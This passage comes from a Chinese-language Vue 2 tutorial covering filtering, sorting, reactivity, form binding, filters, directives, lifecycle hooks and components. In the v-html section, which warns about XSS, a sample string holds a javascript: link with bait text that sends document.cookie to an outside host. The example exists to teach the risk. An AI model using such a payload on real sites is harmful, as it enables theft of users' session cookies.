  watch: {
    keyWord: {
      immediate: true,
      handler(val) {
        this.filPersons = this.persons.filter((p) => {
          return p.name.indexOf(val) !== -1;
        });
      },
    },
  },
});

// 用computed实现
/*new Vue({
        el: '#root',
        data: {
            keyWord: '',
            persons: [{
                    id: '001',
                    name: '马冬梅',
                    age: 19,
                    sex: '女'
                },
                {
                    id: '002',
                    name: '周冬雨',
                    age: 20,
                    sex: '女'
                },
                {
                    id: '003',
                    name: '周杰伦',
                    age: 21,
                    sex: '男'
                },
                {
                    id: '004',
                    name: '温兆伦',
                    age: 22,
                    sex: '男'
                }
            ]
        },
        computed: {
            filPerons() {
                return this.persons.filter((p) => {
                    return p.name.indexOf(this.keyWord) !== -1
                })
            }
        }
    })*/
</script>
```

#### 4.列表排序：

```vue
<body>
    <div id="root">
      <!-- 遍历数组 -->
      <h2>人员列表</h2>
      <input type="text" placeholder="请输入名字" v-model="keyWord" />
      <button @click="sortType=2">年龄升序</button>
      <button @click="sortType=1">年龄降序</button>
      <button @click="sortType=0">原顺序</button>
      <ul>
        <li v-for="(p,index) in filPerons" :key="p.id">
          {{p.name}}-{{p.age}}-{{p.sex}}
        </li>
      </ul>
    </div>
  </body>
<script>
Vue.config.productionTip = false;
new Vue({
  el: "#root",
  data: {
    keyWord: "",
    sortType: 0, //0代表原顺序 1降序 2升序
    persons: [
      { id: "001", name: "马冬梅", age: 30, sex: "女" },
      { id: "002", name: "周冬雨", age: 31, sex: "女" },
      { id: "003", name: "周杰伦", age: 18, sex: "男" },
      { id: "004", name: "温兆伦", age: 19, sex: "男" },
    ],
  },
  computed: {
    filPerons() {
      const arr = this.persons.filter((p) => {
        return p.name.indexOf(this.keyWord) !== -1;
      });
      console.log(arr);
      // 判断一下是否需要排序
      if (this.sortType) {
        arr.sort((p1, p2) => {
          return this.sortType === 1 ? p2.age - p1.age : p1.age - p2.age;
        });
      }
      return arr;
    },
  },
});
</script>
```

#### 5.更新时一个问题：

```vue
<body>
    <div id="root">
      <!-- 遍历数组 -->
      <h2>人员列表</h2>
      <button @click="updateMei">更新马冬梅的信息</button>
      <ul>
        <li v-for="(p,index) in persons" :key="p.id">
          {{p.name}}-{{p.age}}-{{p.sex}}
        </li>
      </ul>
    </div>
</body>
<script>
Vue.config.productionTip = false;
new Vue({
  el: "#root",
  data: {
    persons: [
      { id: "001", name: "马冬梅", age: 30, sex: "女" },
      { id: "002", name: "周冬雨", age: 31, sex: "女" },
      { id: "003", name: "周杰伦", age: 18, sex: "男" },
      { id: "004", name: "温兆伦", age: 19, sex: "男" },
    ],
  },
  methods: {
    updateMei() {
      // this.persons[0].name = '马老师' //奏效
      // this.persons[0].age = 50 //奏效
      // this.persons[0].sex = '男' //奏效
      //this.persons[0] = {id: '001',name: '马老师',age: 50,sex: '男'} //不奏效
      this.persons.splice(0, 1, {
        id: "001",
        name: "马老师",
        age: 50,
        sex: "男",
      });
    },
  },
});
</script>
```

#### 6.Vue 监测数据改变的原理\_对象：

```vue
<body>
    <div id="root">
        <h2>学校名称：{{name}}</h2>
        <h2>学校地址：{{address}}</h2>
    </div>
</body>
<script>
Vue.config.productionTip = false;
const vm = new Vue({
  el: "#root",
  data: {
    name: "哔哩哔哩",
    address: "上海",
  },
});
</script>
```

#### 7.模拟一个数据监测：

```vue
<body>
    
</body>
<script>
let data = {
  name: "哔哩哔哩",
  address: "上海",
};

// 创建一个监视的实例对象，用于监视data中属性的变化
const obs = new Observer(data);
console.log(obs);

// 准备一个vm实例对象
let vm = {};
vm._data = data = obs;

function Observer(obj) {
  // 汇总对象中所有的属性形成一个数组
  const keys = Object.keys(obj);
  // 遍历
  keys.forEach((k) => {
    Object.defineProperty(this, k, {
      get() {
        return obj[k];
      },
      set(val) {
        console.log("$(k)被改了，我要去解析模板，生成虚拟DOM...我要开始忙了");
        obj[k] = val;
      },
    });
  });
}
</script>
```

#### 8.Vue.set 的使用：

```vue
<body>
    <div id="root">
        <h1>学校信息</h1>
        <h2>学校名称：{{school.name}}</h2>
        <h2>学校地址：{{school.address}}</h2>
        <h2>校长是：{{school.leader}}</h2>
        <hr />
        <h1>学生信息</h1>
        <button @click="addSex">添加一个性别属性，默认值是男</button>
        <h2>姓名：{{student.name}}</h2>
        <h2 v-if="student.sex">性别：{{student.sex}}</h2>
        <h2>年龄：真实:{{student.age.rAge}}，对外:{{student.age.sAge}}</h2>
        <h2>朋友们</h2>
        <ul>
            <li v-for="(f,index) in student.friends" ::key="index">
                {{f.name}}--{{f.age}}
            </li>
        </ul>
    </div>
</body>
<script>
Vue.config.productionTip = false;
const vm = new Vue({
  el: "#root",
  data: {
    school: {
      name: "哔哩哔哩",
      address: "上海",
    },
    student: {
      name: "tom",
      age: {
        rAge: 40,
        sAge: 29,
      },
      friends: [
        { name: "jerry", age: 35 },
        { name: "tony", age: 36 },
      ],
    },
  },
  methods: {
    addSex() {
      // Vue.set(this.student,'sex','男')
      this.$set(this.student, "sex", "男");
    },
  },
});
</script>
```

#### 9.Vue 监测数据改变的原理\_数组：

```vue
<body>
    <div id="root">
        <h1>学校信息</h1>
        <h2>学校名称：{{school.name}}</h2>
        <h2>学校地址：{{school.address}}</h2>
        <h2>校长是：{{school.leader}}</h2>
        <hr />
        <h1>学生信息</h1>
        <button @click="addSex">添加一个性别属性，默认值是男</button>
        <h2>姓名：{{student.name}}</h2>
        <h2 v-if="student.sex">性别：{{student.sex}}</h2>
        <h2>年龄：真实:{{student.age.rAge}}，对外:{{student.age.sAge}}</h2>
        <h2>爱好</h2>
        <ul>
            <li v-for="(h,index) in student.hobby" :key="index">
                {{h}}
            </li>
        </ul>
        <h2>朋友们</h2>
        <ul>
            <li v-for="(f,index) in student.friends" :key="index">
                {{f.name}}--{{f.age}}
            </li>
        </ul>
    </div>
</body>
<script>
Vue.config.productionTip = false;
const vm = new Vue({
  el: "#root",
  data: {
    school: {
      name: "哔哩哔哩",
      address: "上海",
    },
    student: {
      name: "tom",
      age: {
        rAge: 40,
        sAge: 29,
      },
      hobby: ["抽烟", "喝酒", "烫头"],
      friends: [
        { name: "jerry", age: 35 },
        { name: "tony", age: 36 },
      ],
    },
  },
  methods: {
    addSex() {
      // Vue.set(this.student,'sex','男')
      this.$set(this.student, "sex", "男");
    },
  },
});
</script>
```

#### 10.总结 Vue 数据监测：

Vue 监视数据的原理：

1.Vue 会监视 data 中所有层次的数据

2.如何监视对象中的数据？

通过 setter 实现监视，且要在 new Vue 时就传入要监测的数据。

(1).对象中后追加的属性，Vue 默认不做响应式处理

(2).如需给后添加的属性做响应式，请使用如下 API:

Vue.set(target,propertName/index,value) 或

vm.$set(target,propertName/index,value)

3.如何监测数组中的数据？

通过包裹数组更新元素的方法实现，本质就是做了两件事：

(1).调用原生对应的方法对数组进行更新

(2).重新解析模板，进而更新页面

4.在 Vue 修改数组中的某个元素一定要用如下方法：

1.使用这些 API：push()、pop()、shift()、unshift()、splice()、sort()、reverse()

2.Vue.set() 或者 vm.$set()

特别注意：Vue.set() 和 vm.$set() 不能给 vm 或者 vm 的根数据对象 添加属性！！！

```vue
<body>
    <div id="root">
        <h1>学生信息</h1>
        <button @click="addAge">年龄+1</button> <br />
        <button @click="addSex">添加性别属性，默认值：男</button> <br />
        <button @click=" student.sex = '未知' ">修改性别</button> <br />
        <button @click="addFriend">在列表首位添加一个朋友</button> <br />
        <button @click="updateFirstFriendName">修改第一个朋友的名字为：张三</button> <br />
        <button @click="addHobby">添加一个爱好</button> <br />
        <button @click="updateHobby">修改第一个爱好为：开车</button> <br />
        <button @click="removeSmoke">过滤掉爱好中的抽烟</button> <br />
        <h3>姓名：{{student.name}}</h3>
        <h3>年龄：{{student.age}}</h3>
        <h3 v-if="student.sex">性别：{{student.sex}}</h3>
        <h2>爱好</h2>
        <ul>
            <li v-for="(h,index) in student.hobby" :key="index">
                {{h}}
            </li>
        </ul>
        <h2>朋友们</h2>
        <ul>
            <li v-for="(f,index) in student.friends" :key="index">
                {{f.name}}--{{f.age}}
            </li>
        </ul>
    </div>
</body>
<script>
Vue.config.productionTip = false;
const vm = new Vue({
  el: "#root",
  data: {
    student: {
      name: "tom",
      age: 18,
      hobby: ["抽烟", "喝酒", "烫头"],
      friends: [
        { name: "jerry", age: 35 },
        { name: "tong", age: 36 },
      ],
    },
  },
  methods: {
    addAge() {
      this.student.age++;
    },
    addSex() {
      // Vue.set(this.student,'sex','男')
      this.$set(this.student, "sex", "男");
    },
    addFriend() {
      this.student.friends.unshift({ name: "jack", age: 70 });
    },
    updateFirstFriendName() {
      this.student.friends[0].name = "张三";
      // this.student.friends.splice(0,1,{name:'张三',age:30})
    },
    addHobby() {
      this.student.hobby.push("学习");
    },
    updateHobby() {
      // this.student.hobby.splice(0,1,"开车")
      Vue.set(this.student.hobby, 0, "开车");
      this.$set(this.student.hobby, 0, "开车");
    },
    removeSmoke() {
      this.student.hobby = this.student.hobby.filter((h) => {
        return h !== "抽烟";
      });
    },
  },
});
</script>
```

## 收集表单数据：

---

若：`<input type="text" />`，则 v-model 收集的是 value 值，用户输入的就是 value 值

若：`<input type="radio" />`，则 v-model 收集的是 value 值，且要给标签配置 value 值

若：`<input type="checkbox" />`

1.没有配置 input 的 value 属性，那么收集的就是 checked（勾选 or 未勾选，是布尔值）

2.配置 input 的 value 属性：

(1).v-model 的初始值是非数组，那么收集的就是 checked（勾选 or 未勾选，是布尔值）

(2).v-model 的初始值是数组，那么收集的就是 value 组成的数组

备注：v-mdeol 的三个修饰符：

lazy：失去焦点再收集数据

number：输入字符串转为有效的数字 （配合`<input type="number" />`使用）

trim：输入首尾空格过滤

```vue
<body>
    <div id="root">
        <form @submit.prevent="demo">
            账号：<input type="text" v-model.trim="userInfo.account"><br /><br />
            密码：<input type="password" v-model="userInfo.password"><br /><br />
            年龄：<input type="number" v-model.number="userInfo.age"><br /><br />
            性别：男<input type="radio" name="sex" v-model="userInfo.sex" value="male">
                女<input type="radio" name="sex" v-model="userInfo.sex" value="female"><br /><br />
            爱好：学习<input type="checkbox" v-model="userInfo.hobby" value="study">
                打游戏<input type="checkbox" v-model="userInfo.hobby" value="game">
                吃饭<input type="checkbox" v-model="userInfo.hobby" value="eat"><br /><br />
            所属校区：
            <select v-model="userInfo.city">
                <option value="">请选择校区</option>
                <option value="beijing" >北京</option>
                <option value="shanghai">上海</option>
                <option value="shenzhen">深圳</option>
                <option value="wuhan">武汉</option>
            </select><br /><br />
            其他信息：<textarea v-model.lazy="userInfo.other"></textarea><br /><br />
            <input type="checkbox" v-model="userInfo.agree">阅读并接受<a href="javascript:;" style="text-decoration: none;">《用户协议》</a><br /><br />
            <button>提交</button>
        </form>
    </div>
</body>
<script>
Vue.config.productionTip = false;
new Vue({
  el: "#root",
  data: {
    userInfo: {
      account: "",
      password: "",
      age: "",
      sex: "male",
      hobby: [],
      city: "beijing",
      other: "",
      agree: false,
    },
  },
  methods: {
    demo() {
      console.log(JSON.stringify(this.userInfo));
    },
  },
});
</script>
```

## 过滤器：

---

定义：对要显示的数据进行待定格式化后再显示（适用于一些简单逻辑的处理）

语法：

```
1.注册过滤器：Vue.filter(name,callback)（全局注册） 或者 new Vue(filters:{})（局部注册）

2.使用过滤器：{{xxx | 过滤器名}} （插值语法使用比较多） 或者 v-bind:属性 = "xxx | 过滤器名" （v-bind 绑定使用比较少），使用 v-model 进行过滤会报错
```

备注：

1.过滤器也可以接受额外参数，多个过滤器也可以串联

2.并没有改变原本的数据，是产生新的对应的数据

```vue
<body>
    <div id="root">
        <h2>显示格式化后的时间</h2>
        <!-- 计算属性实现 -->
        <h3>现在是：{{fmtTime}}</h3>
        <!-- methods实现 -->
        <h3>现在是：{{getfmtTime()}}</h3>
        <!-- 过滤器实现 -->
        <h3>现在是：{{time | timeFormater}}</h3>
        <!-- 过滤器实现(传参) -->
        <h3>现在是：{{time | timeFormater('YYYY-MM-DD') | mySlice}}</h3>
        <h3 :x="msg | mySlice">哔哩哔哩</h3>
    </div>
    <div id="root2">
        <h2>{{msg | mySlice}}</h2>
    </div>
</body>
<script>
Vue.config.productionTip = false;
// 全局的过滤器
Vue.filter("mySlice", function (value) {
  return value.slice(0, 4);
});
new Vue({
  el: "#root",
  data: {
    time: 1649808316084, //时间戳
    msg: "你好，哔哩哔哩",
  },
  computed: {
    fmtTime() {
      return dayjs().format("YYYY年MM月DD日 HH:mm:ss");
    },
  },
  methods: {
    getfmtTime() {
      return dayjs().format("YYYY年MM月DD日 HH:mm:ss");
    },
  },
  // 局部过滤器
  filters: {
    timeFormater(value, str = "YYYY年MM月DD日 HH:mm:ss") {
      // console.log('@',value)
      return dayjs(value).format(str);
    },
    mySlice(value) {
      return value.slice(0, 4);
    },
  },
});

new Vue({
  el: "#root2",
  data: {
    msg: "Hello,哔哩哔哩!",
  },
});
</script>
```

## Vue 内置指令：

---



我们学过的指令：

`v-bind` ：单向绑定解析表达式，可以简写为 :`xxx`

`v-model` : 双向数据绑定

`v-for` : 遍历数组/对象/字符串

`v-on` : 绑定事件监听，可以简写为 @

`v-if` : 条件渲染（动态控制节点是否存存在）

`v-else` : 条件渲染（动态控制节点是否存存在）

`v-show` : 条件渲染（动态控制节点是否展示）

#### 1.v-text 指令：

1.作用：向其所在的节点中渲染文本内容

2.特点：只会把所有的字符串当成正常的文本解析，不会当成标签解析，纵使字符串里面有标签结构

3.与插值语法的区别：v-text 会替换掉节点中的内容，`{{`xxx`}}`插值语法则不会

```vue
<body>
    <div id="root">
        <div>你好，{{name}}</div>
        <div v-text="name"></div>
    </div>
</body>
<script>
    Vue.config.productionTip = false
    new Vue({
        el:'#root',
        data:{
            name:'哔哩哔哩'
        }
    })
</script
```

#### 2.v-html 指令：

1.作用：向指定节点中渲染包含 html 结构的内容。

2.与插值语法的区别：

(1).v-html 会替换掉节点中所有的内容，`{{`xxx`}}`插值语法则不会

(2).v-html 可以识别 html 结构

3.严重注意：v-html 有安全性问题！！！

(1).在网站上动态渲染任意 HTML 是非常危险的，容易导致 xss 攻击

(2).一定要在可信的内容上使用 v-html，永不要用在用户提交的内容上！

```vue
<body>
    <div id="root">
        <div>你好，{{name}}</div>
        <div v-html="str"></div>
        <div v-html="str2"></div>
    </div>
</body>
<script>
Vue.config.productionTip = false;
new Vue({
  el: "#root",
  data: {
    name: "哔哩哔哩",
    str: "<h3>你好呀！</h3>",
    str2: '<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
  },
});
</script>
```

#### 3.v-cloak 指令：

v-cloak 指令（没有值）：

1.本质是一个特殊属性，Vue 实例创建完毕并接管容器后，会删掉 v-cloak 属性。

2.使用 `css（display: none;）`配合 v-cloak 可以解决网速慢时页面展示出`{{`xxx`}}`的问题

#### 4.v-once 指令：

1.v-once 所在节点在初次动态渲染后，就视为静态内容了。

2.以后数据的改变不会引起 v-once 所在结构的更新，可以用于优化性能。

```vue
<body>
    <div id="root">
        <h2 v-once>初始化的n值是：{{n}}</h2>
        <h2>当前的n值是：{{n}}</h2>
        <button @click="n++">点我n+1</button>
    </div>
</body>
<script>
Vue.config.productionTip = false;
new Vue({
  el: "#root",
  data: {
    n: 1,
  },
});
</script>
```

#### 5.v-pre 指令：

1.跳过其所在节点的编译过程

2.可利用它跳过：没有使用指令语法、没有使用插值语法的节点，会加快编译

```vue
<body>
    <div id="root">
        <h2 v-pre>Vue其实很简单</h2>
        <h2>当前的n值是：{{n}}</h2>
        <button @click="n++">点我n+1</button>
    </div>
</body>
<script>
Vue.config.productionTip = false;
new Vue({
  el: "#root",
  data: {
    n: 1,
  },
});
</script>
```

## 自定义指令：

---

#### 1.自定义指令：

自定义指令总结：

一、定义语法：

(1).局部语法：

```js
new Vue({ directives:{指令名:配置对象} }) 或者  new Vue({ directives{指令名:回调函数} })
```

(2).全局指令：

`Vue.directive(指令名，配置对象)` 或者 `Vue.directive(指令名，回调函数)`

二、配置对象中的常用的 3 个回调：

(1).`bind`：指令与元素成功绑定时调用

(2).`inserted`：指令所在元素被插入页面时调用

(3).`update`：指令所在模板结构被重新解析时调用

三、备注：

1.指令定义时不加 v-，但使用时要加 v-；

2.指令名如果是多个单词，要使用 kebab-case 命名方式，不要用 camelCass 命名

```vue
<body>
    <!-- 
        需求1：定义一个v-big指令，和v-text功能类型，但会把绑定的数值放大10倍
        需求2：定义一个v-fbind指令，和v-bind功能类似，但可以让其所绑定的input元素默认获取焦点
     -->
    <div id="root">
      <h2>当前的n值是：<span v-text="n"></span></h2>
      <!-- <h2>放大10倍后的n值是：<span v-big-number="n"></span></h2> -->
      <h2>放大10倍后的n值是：<span v-big="n"></span></h2>
      <button @click="n++">点我n+1</button>
      <hr />
      <input type="text" v-fbind:value="n" />
    </div>
  </body>
<script>
Vue.config.productionTip = false;
// 定义全局指令
/*Vue.directive('fbind',{
                 // 指令与元素成功绑定时（一上来）
                 bind(element,binding){
                     element.value = binding.value
                 },
                 // 指令所在元素被插入页面时
                 inserted(element,binding){
                     element.focus()
                 },
                 // 指令所在的模板被重新解析时
                 update(element,binding){
                     element.value = binding.value
                 }
        }) */

Vue.directive("big", function (element, banding) {
  console.log("big", this); //注意此处的this是window
  element.innerText = banding.value * 10;
});

new Vue({
  el: "#root",
  data: {
    n: 1,
  },
  directives: {
    // big函数何时会被调用？1.指令与元素成功绑定时（一上来）2.指令所在的模板被重新解析时
    // 'big-number'(element,banding){
    //     element.innerText = banding.value * 10
    // },
    big(element, banding) {
      console.log("big", this); //注意此处的this是window
      element.innerText = banding.value * 10;
    },
    fbind: {
      // 指令与元素成功绑定时（一上来）
      bind(element, binding) {
        element.value = binding.value;
      },
      // 指令所在元素被插入页面时
      inserted(element, binding) {
        element.focus();
      },
      // 指令所在的模板被重新解析时
      update(element, binding) {
        element.value = binding.value;
      },
    },
  },
});
</script>
```

#### 2.回顾一个 DOM 操作：

```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="UTF-8" />
    <title>测试</title>
    <style>
      .demo {
        background-color: orange;
      }
    </style>
  </head>
  <body>
    <button id="btn">点我创建一个输入框</button>
    <script>
      var btn = document.getElementById("btn");
      btn.onclick = () => {
        const input = document.createElement("input");

        input.className = "demo";
        input.value = 99;
        input.onclick = () => {
          alert(1);
        };

        document.body.appendChild(input);

        input.focus();
        input.parentElement.style.backgroundColor = "skyblue";
      };
    </script>
  </body>
</html>
```

## Vue 生命周期：

---

#### 1.引出生命周期：

生命周期：

1.又名：生命周期回调函数、生命周期函数、生命周期钩子

2.是什么：Vue 在关键时刻帮我们调用一下特殊名称的函数

3.生命周期函数的名字不可更改，但函数的具体内容是程序员根据需求编写的

4.生命周期函数中的 this 指向是 vm 或者 组件实例对象

```vue
<body>
    <div id="root">
        <h2 :style={opacity}>欢迎学习Vue</h2>
    </div>
</body>
<script>
Vue.config.productionTip = false;
new Vue({
  el: "#root",
  data: {
    opacity: 1,
  },
  methods: {},
  // Vue完成模板的解析并把初始的真实的DOM元素放入页面后（挂载完毕）调用mounted
  mounted() {
    console.log("mounted", this);
    setInterval(() => {
      this.opacity -= 0.01;
      if (this.opacity <= 0) {
        this.opacity = 1;
      }
    }, 16);
  },
});

// 通过外部的定时器实现（不推荐）
/*setInterval(()=>{
        vm.opacity -= 0.01
        if(vm.opacity <= 0){
            vm.opacity = 1
         }
        },16) */
</script>
```

#### 2.分析生命周期：


```vue
<body>
    <div id="root" :x="n">
        <h2 v-text="n"></h2>
        <h2>当前的n值是：{{n}}</h2>
        <button @click="add">点我n+1</button>
        <button @click="bye">点我销毁vm</button>
    </div>
</body>
<script>
Vue.config.productionTip = false;
new Vue({
  el: "#root",
  // template:`<h2>当前的n值是：{{n}}</h2>
  //             <button @click="add">点我n+1</button>
  //             `,
  data: {
    n: 1,
  },
  methods: {
    add() {
      console.log("add");
      this.n++;
    },
    bye() {
      console.log("bye");
      this.$destroy();
    },
  },
  beforeCreate() {
    console.log("beforeCreate");
    // console.log(this) //生命周期的this全部都是vm
    // debugger;    //断点卡住
  },
  created() {
    console.log("created");
    // console.log(this)
    // debugger;
  },
  beforeMount() {
    console.log("beforeMount");
    // console.log(this)
    // debugger;
  },
  mounted() {
    console.log("mounted");
    // console.log(this)
    // debugger;
  },
  beforeUpdate() {
    console.log("beforeUpdate");
    // console.log(this.n)
    // debugger;
  },
  updated() {
    console.log("updated");
    // console.log(this.n)
    // debugger
  },
  beforeDestroy() {
    console.log("beforeDestroy");
    // console.log(this.n)
    this.add();
  },
  destroyed() {
    console.log("destroyed");
  },
});
</script>
```

#### 3.总结生命周期：

常用的生命周期钩子：

1.mounted：发送 ajax 请求、启动定时器、绑定自定义事件、订阅消息等【初始化推荐】

2.beforeDestroy：清除定时器、解绑自定义事件、取消订阅消息等【收尾工作】

关于销毁 Vue 实例

1.销毁后借助 Vue 开发者工具看不到任何信息

2.销毁后自定义事件会失效，但原生 DOM 事件依然有效

3.一般不会在 beforeDestroy 操作数据，因为即便操作数据，也不会再触发更新流程了

```vue
<body>
    <div id="root">
        <h2 :style={opacity}>欢迎学习Vue</h2>
        <button @click="opacity = 1">透明度设置为1</button>
        <button @click="stop">点我停止变换</button>
    </div>
</body>
<script>
Vue.config.productionTip = false;
new Vue({
  el: "#root",
  data: {
    opacity: 1,
  },
  methods: {
    stop() {
      // clearInterval(this.timer)
      this.$destroy();
    },
  },
  // Vue完成模板的解析并把初始的真实的DOM元素放入页面后（挂载完毕）调用mounted
  mounted() {
    console.log("mounted", this);
    this.timer = setInterval(() => {
      console.log("setInterval");
      this.opacity -= 0.01;
      if (this.opacity <= 0) {
        this.opacity = 1;
      }
    }, 16);
  },
  beforeDestroy() {
    console.log("vm即将驾鹤西游了");
    clearInterval(this.timer);
  },
});
</script>
```

## 非单文件组件：

---

#### 1.基本使用：

Vue 中使用组件的三大步骤：

一、定义组件（创建组件）

二、注册组件

三、使用组件（写组件标签）

一、如何定义一个组件？

使用 Vue.extend(options)创建，其中 options 和 new Vue(options)时传入的那个 options 几乎一样，但也有点区别：

区别如下：

1.el 不要写，为什么？ —— 最终所有的组件都要经过一个 vm 的管理，由 vm 中的 el 决定服务哪个容器

2.data 必须写成函数，为什么？ —— 避免组件被复用时，数据存在引用关系

备注：使用 template 可以配置组件结构

二、如何注册组件？

1.局部注册：靠 new Vue 的时候传入 components 选项

2.全局注册：靠 Vue.component('组件名',组件)

三、编写组件标签(有两种写法)：

`<school></school> 或者 <school />`

```vue
<body>
    <div id="root">
        <hello></hello>
        <hr />
        <h1>{{msg}}</h1>
        <hr />
        <!-- 第三步：编写组件标签 -->
        <school></school>
        <hr />
        <!-- 第三步：编写组件标签 -->
        <student></student>
    </div>

    <div id="root2">
        <hello></hello>
    </div>
</body>
<script>
Vue.config.productionTip = false;
// 第一步：创建school组件
const school = Vue.extend({
  template: `
        <div>
            <h2>学校名称：{{schoolName}}</h2>
            <h2>学校地址：{{address}}</h2>
            <button @click='showName'>点我提示学校名</button>
        </div>
        `,
  // el:'#root', //组件定义时，一定不要写el配置项，因为最终所有的组件都要被一个vm管理，由vm决定服务于哪个容器
  data() {
    return {
      schoolName: "哔哩哔哩",
      address: "上海",
    };
  },
  methods: {
    showName() {
      alert(this.schoolName);
    },
  },
});
// 第一步：创建student组件
const student = Vue.extend({
  template: `
        <div>
            <h2>学生姓名：{{studentName}}</h2>
            <h2>学校年龄：{{age}}</h2>
        </div>
        `,
  data() {
    return {
      studentName: "张三",
      age: 18,
    };
  },
});
// 第一步：创建hello组件
const hello = Vue.extend({
  template: `
            <div>
                <h2>你好啊！{{name}}</h2>
            </div>
        `,
  data() {
    return {
      name: "Tom",
    };
  },
});
// 第二部：全局注册组件
Vue.component("hello", hello);

// 创建vm
new Vue({
  el: "#root",
  data: {
    msg: "你好啊！",
  },
  // 第二步：注册组件（局部注册）
  components: {
    school,
    student,
  },
});
new Vue({
  el: "#root2",
  components: {
    hello,
  },
});
</script>
```

#### 几个注意点：

1.关于组件名；

一个单词组成：

第一种写法(首字母小写)：school

第二种写法(首字母大写)：School

多个单词组成：

第一种写法(Kebab-case 命名)：my-school

第二种写法(CamelCase 命名)：MySchool(需要 Vue 脚手架支持)

备注：

(1).组件名尽可能回避 HTML 中已有的元素名称，例如：h2、H2 都不行

(2).可以使用 name 配置项指定组件在开发者工具中呈现的名称

2.关于组件标签：

第一种写法：`<school></school>`

第二种写法：`<school/>`

备注：不用使用脚手架时，`<school/>`会导致后续组件不能渲染

3.一个简写方式：

`const school = Vue.extend(options)` 可以简写为：`const school = options`

```vue
<body>
    <div id="root">
        <h1>{{msg}}</h1>
        <school></school>
    </div>
</body>
<script>
Vue.config.productionTip = false;
// 定义组件
const s = Vue.extend({
  template: `
        <div>
            <h2>学校名称：{{schoolName}}</h2>
            <h2>学校地址：{{address}}</h2>
        </div>
        `,
  data() {
    return {
      schoolName: "哔哩哔哩",
      address: "上海",
    };
  },
});
// 注册组件
new Vue({
  el: "#root",
  data: {
    msg: "欢迎学习Vue！",
  },
  components: {
    school: s,
  },
});
</script>
```

#### 3.组件嵌套：

```vue
<body>
    <div id="root"></div>
</body>
<script>
Vue.config.productionTip = false;
// 定义student组件
const student = Vue.extend({
  template: `
            <div>
                <h2>学生姓名：{{name}}</h2>
                <h2>学习年龄：{{age}}</h2>    
            </div>
        `,
  data: function () {
    return {
      name: "张三",
      age: 20,
    };
  },
});
// 定义school组件
const school = Vue.extend({
  name: "school",
  template: `
            <div>
                <h2>学校名称：{{name}}</h2>
                <h2>学校地址：{{address}}</h2>
                <student></student>
            </div>
        `,
  data: function () {
    return {
      name: "哔哩哔哩",
      address: "上海",
    };
  },
  // 注册组件（局部）
  components: {
    student: student,
  },
});
// 定义hello组件
const hello = Vue.extend({
  template: `<h1>{{msg}}</h1>`,
  data: function () {
    return {
      msg: "欢迎学习Vue！",
    };
  },
});
// 定义app组件
const app = Vue.extend({
  template: `
            <div>
                <hello></hello>
                <school></school>
            </div>
        `,
  components: {
    school,
    hello,
  },
});
// 创建vm实例
new Vue({
  template: `<app></app>`,
  el: "#root",
  // 注册组件(局部)
  components: {
    app: app,
  },
});
</script>
```

#### 4.VueComponent：

关于 VueComponent:

1.school 组件本质是一个名为 VueComponent 的构造函数，且不是程序员定义的，是 Vue.extend 生成的。

2.我们只需要写`<school/>`或`<school></school>`,Vue 解析时会帮我们创建 school 组件的实例对象，

即 Vue 帮我们执行的：new VueComponent(options)。

3.特别注意；每次调用 Vue.extend，返回的都是一个全新的 VueComponent！！！

4.关于 this 指向：

(1).组件配置中：

data 函数、methods 中函数、watch 中的函数、computed 中的函数，它们的 this 均是【VueComponent 实例对象】

(2).new Vue(options)配置中：

data 函数、methods 中函数、watch 中的函数、computed 中的函数，它们的 this 均是【Vue 实例对象】

5.VueComponent 的实例对象，以后简称 vc(也可称之为：组件实例对象)

Vue 的实例对象，以后简称 vm

```vue
<body>
    <div id="root">
        <hello></hello>
        <school></school>
    </div>
</body>
<script>
Vue.config.productionTip = false;
const school = Vue.extend({
  template: `
            <div>
                <h2>学校名称：{{name}}</h2>
                <h2>学校地址：{{address}}</h2>
                <button @click='showname'>点我提示学校名</button>
            </div>
        `,
  data: function () {
    return {
      name: "哔哩哔哩",
      address: "上海",
    };
  },
  methods: {
    showname: function () {
      alert(this.name);
      console.log(this);
    },
  },
});
const test = Vue.extend({
  template: `<span>bilibili</span>`,
});
// 定义hello组件
const hello = Vue.extend({
  template: `
            <div>
                <h2>{{msg}}</h2>
                <test></test> 
            </div>
        `,
  data: function () {
    return {
      msg: "欢迎学习Vue!",
    };
  },
  components: {
    test: test,
  },
});
// console.log('@',school)
// console.log('#',hello)

// 创建vm
const vm = new Vue({
  el: "#root",
  components: {
    school: school,
    hello: hello,
  },
});
</script>
```

#### 5.一个重要的内置关系：

1.一个重要的内置关系：`VueComponent.prototype.__proto__ === Vue.prototype`

2.为什么要有这个关系：让组件实例对象(vc)可以访问到 Vue 原型上的属性、方法

```vue
<body>
    <div id="root">
        <school></school>
    </div>
</body>
<script>
Vue.config.productionTip = false;
// console.dir(Vue.component)
console.dir(Vue.extend);
Vue.prototype.x = 99;
// 定义school组件
const school = Vue.extend({
  template: `
            <div>
                <h2>学校名称：{{name}}</h2>
                <h2>学校地址：{{address}}</h2>
                <button @click='showX'>点我输出x</button>    
            </div>
        `,
  data: function () {
    return {
      name: "哔哩哔哩",
      address: "上海",
    };
  },
  methods: {
    showX: function () {
      console.log(this.x);
    },
  },
});
//创建一个vm实例
const vm = new Vue({
  el: "#root",
  data: {
    msg: "你好啊！Vue",
  },
  components: {
    school: school,
  },
});
//console.log(school.prototype.__proto__ === Vue.prototype) //true

// 定义一个构造函数
/*function Demo(){
        this.a = 1;
        this.b = 2
    }
    // 创建一个Demo的实例对象
    const d = new Demo()

    console.log(Demo.prototype) //显示原型属性

    console.log(d.__proto__)    //隐式原型属性

    console.log(Demo.prototype === d.__proto__)

    // 程序员通过显示原型属性操作原型对象，追加一个x属性，值为99
    Demo.prototype.x = 99
    console.log('@',d)*/
</script>
```



## 单文件组件：

---

#### App.vue 文件：

```vue
<template>
  <div>
    <School></School>
    <Student></Student>
  </div>
</template>
<script>
// 引入组件
import School from "./School.vue";
import Student from "./Student.vue";
export default {
  name: "App",
  components: {
    School: School,
    Student: Student,
  },
};
</script>
<style></style>
```

#### index.html 文件：

```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="UTF-8" />
    <title>练习一下单文件组件的语法</title>
  </head>
  <body>
    <div id="root">
      <App></App>
    </div>
    <script src="../js/vue.js"></script>
    <script src="main.js"></script>
  </body>
</html>
```

#### main.js 文件：

```js
import App from "./App.vue";
new Vue({
  el: "#root",
  components: {
    App: App,
  },
});
```

#### School.vue 文件：

```vue
<template>
  <!-- 组件的结构 -->
  <div class="demo">
    <h2>学校名称：{{ name }}</h2>
